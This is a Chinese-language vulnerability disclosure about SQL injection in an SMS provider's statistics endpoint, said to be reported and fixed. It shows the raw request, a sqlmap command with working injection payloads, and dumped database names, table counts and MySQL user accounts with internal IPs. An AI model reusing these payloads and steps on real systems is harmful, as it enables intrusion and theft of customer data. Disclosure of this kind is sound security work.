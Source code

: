 # 某平台SQL注入影响数十万企业

Feei <feei#feei.cn> 01/2015

> 一家短信提供商，影响涉及各行各业包括金融证券、酒店、医药、互联网等数十万企业的短信的发送记录、发送权限

## 1. 漏洞入口

由之前扫到的弱口令，登陆进来后找到以下注入点：

```bash
POST  
http://211.***.***.62/Statistics/SumStatistics/GetSumDepartment?startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true HTTP/1.1  
Host: 211.***.***.62  
Connection: keep-alive  
Content-Length: 76  
Pragma: no-cache  
Cache-Control: no-cache  
Accept: application/json, text/javascript, */*; q=0.01  
Origin: http://211.***.***.62  
X-Requested-With: XMLHttpRequest  
DNT: 1  
Referer: http://211.***.***.62/Statistics/SumStatistics/Index  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6  
Cookie: 替换为登陆后的COOKIE  
MenusBlockIDs=10010,10011,10012,10013,10014,17000,12000,13000,14000,15000,18000,18200; ControllerName=SumStatistics
startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true
```

保存为`header`文件，使用`sqlmap`跑下。

`./sqlmap.py -r header --threads 10 --dbs -batch`

```bash
Place: POST  
Parameter: startTime  
Type: boolean-based blind  
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)  
Payload: startTime=-6517' OR (4508=4508)#&endTime=2015-01-25&mstype=SMS&on  
Time=true  
Type: error-based  
Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause  
Payload: startTime=2015-01-25' AND (SELECT 6733 FROM(SELECT COUNT(*),CONCAT(0x716c6f6371,(SELECT (CASE WHEN (6733=6733) THEN 1 ELSE 0 END)),0x716f697771,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '  
kjoG'='kjoG&endTime=2015-01-25&mstype=SMS&onTime=true  
Type: AND/OR time-based blind  
Title: MySQL > 5.0.11 AND time-based blind  
Payload: startTime=2015-01-25' AND SLEEP(5) AND 'JYnp'='JYnp&endTime=2015-  
01-25&mstype=SMS&onTime=true
```

## 2. 漏洞证明

涉及16个数据库

**DATABASES(16)**
```
[*] 400_gsms
[*] 400_list
[*] commission
[*] gsms2_init
[*] gsms_init
[*] information_schema
[*] list2_init
[*] list_init
[*] mos2_gsms
[*] mos_gsms
[*] mos_gsms2_1
[*] mos_gsms_2
[*] mos_list2_1
[*] mysql
[*] performance_schema
[*] test
```

影响千万级数据

```
Database: mos_gsms2_1
+-------------------------------+---------+
| Table | Entries |
+-------------------------------+---------+
| gsms_msg_ticket | 4302497 |
| gsms_contact | 4191441 |
| gsms_statereport | 4031478 |
| gsms_deduct_record | 599589 |
| gsms_user_role | 360443 |
| gsms_user_role20130408 | 360110 |
| gsms_user_role20130409 | 360052 |
| gsms_msg_frame | 359263 |
| gsms_msg_pack | 241054 |
| gsms_non_white_list | 158632 |
| gsms_red_list | 124257 |
| gsms_account_carrier_price | 100360 |
| gsms_user | 58597 |
| gsms_user20130403 | 58523 |
| gsms_user20130401 | 58518 |
| gsms_user20130312 | 58275 |
| gsms_biztype_specnum | 53074 |
| gsms_enterprise_apply_detail | 49971 |
| gsms_user_business_type | 47656 |
| gsms_enterprise_specnum_bind | 39635 |
| gsms_user_account_bind | 33256 |
| gsms_business_type | 13511 |
| gsms_capital_account | 12545 |
| gsms_enterprise_apply | 12542 |
```
**Users(56)**
```bash
[*] 'cactiuser'@'192.168.10.89'
[*] 'censerver'@'192.168.10.89'
[*] 'censerver'@'localhost'
[*] 'chengxuan'@'192.168.%'
[*] 'chengxuan'@'localhost'
[*] 'innotop'@'192.168.10.83'
[*] 'monitor'@'192.168.10.89'
[*] 'monyog'@'192.168.%'
[*] 'monyog'@'localhost'
[*] 'moshengkuo'@'192.168.%'
[*] 'mscheck'@'127.0.0.1'
[*] 'mscheck'@'192.168.%'
[*] 'mscheck'@'localhost'
[*] 'private'@'192.168.10.86'
[*] 'private'@'localhost'
[*] 'program'@'172.16.200.10'
[*] 'program'@'172.16.202.101'
[*] 'program'@'172.16.202.102'
[*] 'program'@'172.16.202.203'
[*] 'program'@'183.232.65.44'
[*] 'program'@'192.168.%'
[*] 'program'@'192.168.10.100'
[*] 'program'@'192.168.10.101'
[*] 'program'@'192.168.10.102'
[*] 'program'@'192.168.10.98'
...
[*] 'program'@'localhost'
[*] 'repl'@'192.168.10.%'
[*] 'repl'@'192.168.10.130'
[*] 'root'@'%'
[*] 'root'@'192.168.%
[*] 'root'@'localhost'
[*] 'super'@'192.168.%'
[*] 'super'@'192.168.10.86'
[*] 'super'@'localhost'
[*] 'wanglianguang'@'%'
[*] 'wanglianguang'@'192.168.%'
[*] 'wanglianguang'@'localhost'
[*] 'xiaozhuan'@'192.168.%'
[*] 'xiaozhuan'@'localhost'
```

## 3. 漏洞影响

![](images/v_xuanwu_01.gif)
![](images/v_xuanwu_02.gif)
![](images/v_xuanwu_03.gif)
![](images/v_xuanwu_04.png)
![](images/v_xuanwu_05.png)
![](images/v_xuanwu_06.png)
![](images/v_xuanwu_07.png)
![](images/v_xuanwu_08.jpg)

从结果看应该所有产品数据库都在，光短信库用户就有50000多家，短信数量千万级。还有400等产品

涉及厂商（短信发送数较多的）
- 各大银行
- 东风悦达起亚
- 安利中国
- BMW中国
- 人人快递网
- 中通物流
- 我要旅行网
- 娃哈哈集团
- GXG
- 唯品会
- 酷讯
- ...

漏洞在公开前已经报告给CNCERT、乌云和对应厂商，且漏洞已修复完毕。
